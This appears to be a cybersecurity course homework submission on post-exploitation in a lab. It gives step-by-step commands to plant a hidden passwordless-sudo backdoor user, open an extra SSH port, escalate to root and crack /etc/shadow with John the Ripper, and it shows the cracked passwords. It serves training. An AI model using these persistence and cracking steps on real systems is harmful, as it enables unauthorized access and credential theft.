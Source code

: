 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser --no-create-home sysd`

2. Give your secret user a password: 
    - `passwd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 200 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 200 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo`
    `sysd ALL=(ALL:ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sysd@scavenger-hunt:/$ sudo -l
    sysd@scavenger-hunt:/$ sudo ls -la /home/sysadmin/
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

Done as root user

    ```bash
    root@scavenger-hunt:/# nano /etc/ssh/sshd_config

    Edits-
   
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart sshd`

2. Exit the `root` account:
    - `exit` 
        `exit`
        `exit`
        `exit` 
        - Now back into the attacker machine 

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`
    `john /etc/shadow`

    Output
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (stallman)
freedom          (babbage)
trustno1         (mitnik)
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
passwd           (sysd)
Goodluck!        (student)
Use the "--show" option to display all of the cracked passwords reliably
Session completed

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

